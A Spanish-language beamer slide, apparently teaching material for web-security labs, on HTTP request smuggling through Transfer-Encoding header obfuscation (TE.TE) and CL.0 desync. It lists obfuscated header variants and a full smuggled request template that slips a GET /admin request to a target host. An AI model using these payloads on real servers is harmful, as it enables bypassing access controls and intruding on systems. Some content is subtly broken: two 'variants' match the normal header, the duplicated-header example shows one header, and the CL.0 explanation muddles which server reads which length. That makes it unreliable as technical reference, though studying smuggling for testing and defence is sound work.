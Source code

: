 \documentclass[aspectratio=169,10pt]{beamer}
\newcommand{\cmd}[1]{\texttt{\color{uznavy}#1}}
\begin{document}
\begin{frame}[allowframebreaks]{Ocultación del Header TE y CL.0 (Labs 134, 137)}
\small
  \begin{itemize}
  \item Vulnerabilidades Web
  \item TE.TE --- Ofuscar Transfer-Encoding (Lab 137)
  \item Si ambos servidores soportan TE:chunked $\rightarrow$ ofuscar para que uno lo ignore.
  \item El que no entiende la versión obfuscada cae a usar Content-Length $\rightarrow$ desync.
  \item \cmd{Transfer-Encoding: xchunked}
  \item \cmd{Transfer-Encoding : chunked $\leftarrow$ espacio antes del ':'}
  \item \cmd{Transfer-Encoding: chunked}
  \item \cmd{Transfer-Encoding: chunked $\leftarrow$ cabecera duplicada}
  \item \cmd{Transfer-Encoding:\textbackslash\{\}tchunked $\leftarrow$ tab en lugar de espacio}
  \item \cmd{X-Transfer-Encoding: chunked $\leftarrow$ nombre inventado}
  \item $\rightarrow$ Probar cada variante --- distintos parsers reaccionan diferente.
  \item $\rightarrow$ La que desincroniza al front-end pero no al back-end (o viceversa) es la válida.
  \item CL.0 --- Content-Length: 0 (Lab 134)
  \item Algunos servidores ignoran el cuerpo de la petición si Content-Length = 0.
  \item Si el back-end usa TE:chunked para leer el mismo cuerpo $\rightarrow$ lo procesa como chunks.
  \item \cmd{POST /vulnerable HTTP/1.1}
  \item \cmd{Host: target.com}
  \item \cmd{Content-Length: 0}
  \item \cmd{Transfer-Encoding: chunked}
  \item \cmd{GET /admin HTTP/1.1}
  \item \cmd{X-Ignore: x}
  \item $\rightarrow$ Front-end ve CL=0 $\rightarrow$ reenvía igualmente el cuerpo (GET /admin).
  \item $\rightarrow$ Back-end lo lee como chunk $\rightarrow$ lo trata como nueva petición.
  \item CL.0 es común en frameworks legacy y servidores de embebidos (Nginx+uWSGI, etc.).
  \end{itemize}
\end{frame}
\end{document}
